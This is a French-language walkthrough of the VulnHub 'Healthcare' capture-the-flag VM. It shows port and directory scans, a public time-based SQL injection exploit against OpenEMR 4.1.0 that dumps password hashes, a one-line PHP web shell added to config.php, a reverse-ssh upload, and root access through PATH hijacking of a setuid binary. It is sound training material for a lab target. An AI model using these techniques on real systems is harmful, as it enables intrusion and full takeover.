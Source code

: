 ```yaml
---
title: "Solution du CTF Healthcare de VulnHub"
tags: [CTF, VulnHub]
---
```


[Healthcare](https://vulnhub.com/entry/healthcare-1,522/) est un CTF proposé sur VulnHub et créé par [v1n1v131r4](https://twitter.com/v1n1v131r4).

```
Nmap scan report for 192.168.56.65
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
| http-robots.txt: 8 disallowed entries 
| /manual/ /manual-2.2/ /addon-modules/ /doc/ /images/ 
|_/all_our_e-mail_addresses /admin/ /
|_http-title: Coming Soon 2
|_http-server-header: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
```

Le dossier `addon-modules` existe bien mais retourne le message *This directory can only be viewed from localhost.*

## Same Player Shoot Again

Feroxbuster trouve quelques dossiers supplémentaires :

```
301        9l       29w      342c http://192.168.56.65/images
200      121l      281w     5031c http://192.168.56.65/index
301        9l       29w      341c http://192.168.56.65/fonts
403        1l        4w       59c http://192.168.56.65/phpMyAdmin
301        9l       29w      338c http://192.168.56.65/js
301        9l       29w      342c http://192.168.56.65/vendor
200       19l       78w      620c http://192.168.56.65/robots
301        9l       29w      339c http://192.168.56.65/css
403        1l        8w       49c http://192.168.56.65/addon-modules
200        2l       14w     1406c http://192.168.56.65/favicon
403       42l       96w        0c http://192.168.56.65/server-status
200      121l      281w     5031c http://192.168.56.65/
301        9l       29w      342c http://192.168.56.65/gitweb
403       42l       96w        0c http://192.168.56.65/server-info
403        1l        4w       55c http://192.168.56.65/perl-status
```

On voit la mention de gitweb et d'ailleurs si je demande `/cgi-bin/gitweb.cgi` le fichier est présent mais j'obtiens une erreur 500... pas vraiment ce que j'espérais.

Tout semblait plutôt mal barré puis j'ai relancé la recherche aec la wordlist `directory-list-2.3-big.txt` qui a trouvé un dossier supplémentaire :

`http://192.168.56.65/openemr`

Il s'agit d'une install de OpenEMR, déjà croisé sur [le CTF DriftingBlues 8 de HackMyVM]({% link _posts/2022-01-24-Solution-du-CTF-DriftingBlues-8-de-HackMyVM.md %}#so-long-and-thank-for-all-the-wordlists). Ici le logiciel affiche sa version : 4.1.0.

Ça tombe bien car il y a justement [une injection SQL](https://www.exploit-db.com/exploits/49742) qui touche cette version. Ainsi si je donne une apostrophe en paramètre au script vulnérable, j'obtiens :

> ERROR: query failed: select password,length(password) as passlength from users where username = '''
> 
> Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1

L'exploit présent sur exploit-db fonctionne très bien mais est un peu long en raison de l'utilisation de la technique de temporisation (time based blind sql injection).

```bash
$ python3 49742.py 

   ____                   ________  _______     __ __   ___ ____ 
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ / 
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/  
    /_/
    ____  ___           __   _____ ____    __    _               
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)              
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /               
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /                
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike 

[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```

Je passe les hashs sur crackstation.net et j'obtiens respectivement `ackbar` et `medical`.

Une fois connecté en tant qu'administrateur j'ai suivi la même technique que pour *DriftingBlues 8* à savoir aller dans `Administration > Files` puis rajouter la ligne suivante au fichier `config.php` :

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

Une fois [GitHub - Fahrj/reverse-ssh: Statically-linked ssh server with reverse shell functionality for CTFs and such](https://github.com/Fahrj/reverse-ssh) uploadé sur la VM, je me rend compte que le système ne peut pas exécuter le binaire. Un petit `uname` permet de voir que le système est en 32 bits contrairement à ce que prétendait l'image VirtualBox.

Heureusement reverse-ssh fournit aussi un binaire 32 bits qui peut communiquer avec son penchant 64 bits :)

On trouve trois dossier sous `/home` mais seulement le premier doit être intéressant :

```
drwxr-xr-x 27 almirant almirant 4096 Jul 29  2020 almirant
drwxr-xr-x 31 medical  medical  4096 Nov  5  2011 medical
drwxr-xr-x  3 root     root     4096 Nov  4  2011 mysql
```

J'y trouve d'ailleurs le premier flag (`d41d8cd98f00b204e9800998ecf8427e`).

## Healthshell

Le système a une liste assez longue de binaires setuid :

```bash
bash-4.1$ find / -type f -perm -u+s -ls 2> /dev/null 
147863   12 -rwsr-xr-x   1 root     root         9564 Sep  3  2011 /usr/libexec/pt_chown
147695  236 -rws--x--x   1 root     root       238352 Sep  8  2011 /usr/lib/ssh/ssh-keysign
145819    8 -rwsr-xr-x   1 root     polkituser     5748 Apr  5  2010 /usr/lib/polkit-resolve-exe-helper
145811   12 -rwsr-xr-x   1 root     root         9108 Aug 29  2011 /usr/lib/polkit-1/polkit-agent-helper-1
139126   12 -rwsr-xr-x   1 root     root         9940 Nov  2  2011 /usr/lib/chromium-browser/chrome-sandbox
145817    8 -rwsr-xr--   1 root     polkituser     7580 Apr  5  2010 /usr/lib/polkit-grant-helper-pam
145821   16 -rwsr-xr-x   1 polkituser root        16356 Apr  5  2010 /usr/lib/polkit-set-default-helper
147975   12 -rwsr-xr-x   1 root     root        10757 Jun 11  2011 /usr/sbin/fileshareset
148146   12 -rwsr-xr-x   1 root     root        12036 Nov 28  2010 /usr/sbin/traceroute6
148168   12 -rwsr-xr-x   1 root     root        10713 Aug  2  2011 /usr/sbin/usernetctl
148166   36 -rwsr-xr-x   1 root     root        33324 Nov  9  2009 /usr/sbin/userhelper
136381   40 -rwsr-sr-x   1 root     root        39020 Jun 26  2011 /usr/bin/crontab
136286   44 -rwsr-sr-x   1 daemon   daemon      41036 Jan 19  2010 /usr/bin/at
137295   32 -rwsr-xr-x   1 root     root        28916 Dec 28  2010 /usr/bin/pumount
136305    4 -rwsr-sr-x   1 daemon   daemon        137 Jan 19  2010 /usr/bin/batch
136529   16 -rwsr-xr-x   1 root     root        15848 Jan  9  2010 /usr/bin/expiry
137125   32 -rws--x--x   1 root     root        28752 Jan  9  2010 /usr/bin/newgrp
137230   20 -rwsr-xr-x   1 root     root        16920 Aug 29  2011 /usr/bin/pkexec
137590  120 -rwsr-xr-x   1 root     root       122188 Nov 28  2010 /usr/bin/wvdial
137249   40 -rwsr-xr-x   1 root     root        39488 Dec 28  2010 /usr/bin/pmount
137440   64 -rws--x--x   1 root     root        63752 Jan 23  2010 /usr/bin/sperl5.10.1
136717  364 -rwsr-xr-x   1 root     root       370648 Jan 18  2011 /usr/bin/gpgsm
136708   56 -rwsr-xr-x   1 root     root        56100 Jan  9  2010 /usr/bin/gpasswd
136347   16 -rws--x--x   1 root     root        12400 Nov 16  2010 /usr/bin/chfn
137462   32 -r-sr-xr-x   1 root     root        31144 Nov 16  2010 /usr/bin/su
137181   24 -r-s--x--x   1 root     shadow      20512 Jan 30  2010 /usr/bin/passwd
136709  936 -rwsr-xr-x   1 root     root       956252 Oct 18  2010 /usr/bin/gpg
132151    8 -rwsr-sr-x   1 root     root         5813 Jul 29  2020 /usr/bin/healthcheck
136247    8 -rwsr-xr-x   1 root     root         5852 Sep 22  2011 /usr/bin/Xwrapper
137222   36 -rwsr-xr-x   1 root     root        35128 Nov 28  2010 /usr/bin/ping6
136351   12 -rws--x--x   1 root     root        11664 Nov 16  2010 /usr/bin/chsh
   172  308 -rwsr-x---   1 root     messagebus   314400 Sep 29  2011 /lib/dbus-1/dbus-daemon-launch-helper
136122   12 -rwsr-xr-x   1 root     root        11114 Jul  6  2011 /sbin/pam_timestamp_check
   123   36 -rwsr-xr-x   1 root     root        34848 Nov 28  2010 /bin/ping
    83   28 -rwsr-xr-x   1 root     root        26360 Oct 18  2011 /bin/fusermount
   144   32 -rwsr-xr-x   1 root     root        31144 Nov 16  2010 /bin/su
   111   80 -rwsr-xr-x   1 root     root        80748 Nov 16  2010 /bin/mount
   152   32 -rwsr-xr-x   1 root     root        31180 Nov 16  2010 /bin/umount
```

Certains ne me parlent pas et d'autres semblent vraiment louches (comme `gpg`) mais c'est surtout le `healthcheck` qui me semble inhabituel.

Un coup de strings suffit pour me convaincre qu'il s'agit d'un binaire custom :

```bash
bash-4.1$ strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

C'est du très classique, on va exploiter le fait que ce programme privilégié lance des exécutables avec des paths relatifs et non absolus :

```bash
bash-4.1$ cd /tmp/
bash-4.1$ cp /bin/dash ifconfig
bash-4.1$ export PATH=.:$PATH
bash-4.1$ /usr/bin/healthcheck
'xterm-256color': unknown terminal type.
System Health Check

Scanning System
# id
uid=0(root) gid=0(root) groups=0(root),416(apache)
# cd /root
# ls
Desktop  Documents  drakx  healthcheck  healthcheck.c  root.txt  sudo.rpm  tmp
# cat root.txt
██    ██  ██████  ██    ██     ████████ ██████  ██ ███████ ██████      ██   ██  █████  ██████  ██████  ███████ ██████  ██ 
 ██  ██  ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██ ██ 
  ████   ██    ██ ██    ██        ██    ██████  ██ █████   ██   ██     ███████ ███████ ██████  ██   ██ █████   ██████  ██ 
   ██    ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██    
   ██     ██████   ██████         ██    ██   ██ ██ ███████ ██████      ██   ██ ██   ██ ██   ██ ██████  ███████ ██   ██ ██ 
                                                                                                                          
                                                                                                                          
Thanks for Playing!

Follow me at: http://v1n1v131r4.com


root hash: eaff25eaa9ffc8b62e3dfebf70e83a7b
```

*Publié le 19 novembre 2022*



